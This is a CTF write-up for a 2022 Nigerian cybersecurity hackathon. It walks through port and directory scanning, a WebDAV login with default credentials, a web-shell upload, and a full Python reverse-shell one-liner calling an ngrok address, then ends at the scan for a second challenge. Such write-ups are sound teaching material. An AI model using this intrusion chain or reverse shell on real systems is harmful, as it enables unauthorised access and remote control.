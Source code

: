 ```yaml
---
layout: default
title : n16hth4wk - abcccyberhackathon CTF 2022 Writeup
---
```


### CTF Overview

As part of the 2021 Cybersecurity Conference, the American Business Council Nigeria (ABC Nigeria) was Organized by NaijaSecForce in partnership with Private Sector partners are hosting a Cybersecurity Hackathon. The objective of the hackathon is to highlight the capacity in the space and show the importance of implementing a cybersecurity framework in Nigeria.

The Hackathon will award innovators for displaying their level of expertise and skills in developing solutions to cyber challenges. A Cyber Award will be allocated in kind and will be distributed among the top three winners. 

Cyber Awards will be awarded to the top three teams. Prices includes Laptops, Cybersecurity Certificates, Bootcamp for winners on Security in IBM Cloud, Cisco Certified CyberOps Associate Certifications for the Team Captains and Merchandise. The Award is sponsored by Cisco, IBM, Comercio and American Business Council.

### pwn challenges writeup by nighthawk

### Linux Method - 1000pts

![1](https://user-images.githubusercontent.com/87468669/194117552-e6e33a3e-ef89-44bd-8c3d-cf939fc8c058.png)

Hmmmm we got an IP and a port, let's us nmap to check and  know what service is running on that port.

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~]
└─$ nmap -sC -sV  185.203.119.220 -p 8003  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 09:54 CDT
Nmap scan report for 185.203.119.220
Host is up (0.20s latency).
PORT     STATE SERVICE VERSION
8003/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.04 seconds
```

noice from our scan we can see that an http apache service is running on that port. let's check it on our browser

![2](https://user-images.githubusercontent.com/87468669/194118284-8c40afac-04bb-4eb0-8c17-4f49048db7b9.png)

sweet… let's check the source page if Muzec have anything for us

![3](https://user-images.githubusercontent.com/87468669/194118623-cf2c96ff-0d32-412a-9735-2ace7305c990.png)

hmmmm… abcctf should help in our journey you say. 🤔

let's burst hidden directory with ffuf

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/method]
└─$ ffuf -u "http://185.203.119.220:8003/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php,.txt,.phtml,.bak,.sh -fs 282 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://185.203.119.220:8003/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .phtml .bak .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 282
________________________________________________

_backup                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 202ms]
index.html              [Status: 200, Size: 10772, Words: 3544, Lines: 369, Duration: 166ms]
webdav                  [Status: 401, Size: 464, Words: 42, Lines: 15, Duration: 167ms]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 163ms]
:: Progress: [28278/28278] :: Job [1/1] :: 95 req/sec :: Duration: [0:02:46] :: Errors: 22 ::
```

nice we got somethings interesting but trust me you'll only want to take a look at the webdav directory.

![4](https://user-images.githubusercontent.com/87468669/194121126-27a27eea-fa0f-4182-a088-adcd2572aaa4.png)

hmmmmmm... We are asked to login 😬. but hope you did not forget what Muzec-san left for us in the default apache web source page "abcctf should help you in your journey...." 😉, so let's try login with username: abcctf and password:abcctf.

![image](https://user-images.githubusercontent.com/87468669/194122426-a83ae6f3-4847-462b-a515-a4194cc97c7b.png)

Boom! we are in and we can see the file nothing.txt... let's check its content

![image](https://user-images.githubusercontent.com/87468669/194123641-6ce5f4a2-ed4d-48b6-b238-c3ec8eb48f98.png)

lol nothing really???? let's scroll down to the bottom of the page

![image](https://user-images.githubusercontent.com/87468669/194123866-9fd5e243-27f0-498c-a974-6cfc1dc925f2.png)

there's a piece of advice to prevent other players from either gaining access with your shell or get hint from it 😉.
Now we know it's running webdav, let's exploit our way and gain reverse shell. in this process we would be using cadaver to upload our shell then get a reverse shell shell. 

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/method]
└─$ cadaver http://185.203.119.220:8003/webdav/
Authentication required for webdav on server `185.203.119.220':
Username: abcctf
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 348 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        nothing.txt                          374  Oct  2 22:37
        shell.php                            348  Oct  5 12:42
dav:/webdav/> 

```

we did that now let's check back the webpage to see our shell 

![image](https://user-images.githubusercontent.com/87468669/194126637-3fd3164f-2b79-4724-9a26-c1839c539120.png)

great we can execute some commands on the shell we uploaded

![image](https://user-images.githubusercontent.com/87468669/194126743-bb62ec9f-8cff-43c3-a430-d396f391a395.png)

Now let get a reverse shell using ngrok.

![image](https://user-images.githubusercontent.com/87468669/194126878-06588b8b-f61b-4b65-8f38-3e4a0aa10846.png)

ping our ngrok.io to get an ip address
```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/method]
└─$ ping -c 2 2.tcp.eu.ngrok.io
PING 2.tcp.eu.ngrok.io (3.126.37.18) 56(84) bytes of data.
64 bytes from 3.126.37.18 (3.126.37.18): icmp_seq=1 ttl=234 time=160 ms
64 bytes from 3.126.37.18 (3.126.37.18): icmp_seq=2 ttl=234 time=146 ms

--- 2.tcp.eu.ngrok.io ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 145.905/152.805/159.706/6.900 ms

```
ncat listener ready

![image](https://user-images.githubusercontent.com/87468669/194132884-d3427e33-34de-4291-a5fc-5ecdbc8c12a7.png)

reverse shell payload 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.126.37.18",18416));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/194127758-cb433e30-7425-45a6-8d5d-f8cac0fd0ca2.png)

Checking our ncat listener, Boom! we got a shell 😅

![image](https://user-images.githubusercontent.com/87468669/194127891-58614c0b-9f2b-4c9c-883a-99f5e08fa298.png)

Now hunting for the flag, i did ```find / 2>/dev/null | grep -i "flag"```

![image](https://user-images.githubusercontent.com/87468669/194134825-2b1842db-c10c-41b2-a779-a2ebcb09da87.png)

![image](https://user-images.githubusercontent.com/87468669/194135145-6a7f239b-d41e-43b6-9782-be818e78c9f1.png)


![image](https://user-images.githubusercontent.com/87468669/194128264-0d992453-8661-4122-8e9c-810eaa49994f.png)

final flag - abcctf{345Y_r007_W17H_D3F4U17_Cr3D5}

sweet challeng from Muzec.

### Pain - 1500pts

![image](https://user-images.githubusercontent.com/87468669/194135616-d4c951a1-204b-42e9-a84a-656671c6c53f.png)

We got 2 IPs and ports again this really will be Pain 💉💉💉. Regardless we move. As we can see the first IP is an http server, let's use nmap to check and know what service is running on that port 2222.

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/Pain]
└─$ nmap -sC -sV  185.203.119.220 -p 2222  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 13:38 CDT
Nmap scan report for 185.203.119.220
Host is up (0.67s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f3:c8:21:9a:27:8e:62:7c:be:5c:31:0b:d8:bf:46:86 (ECDSA)
|_  256 45:74:d1:d7:94:a7:a6:b3:12:4b:91:7f:6e:a5:e0:4a (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.43 seconds
```







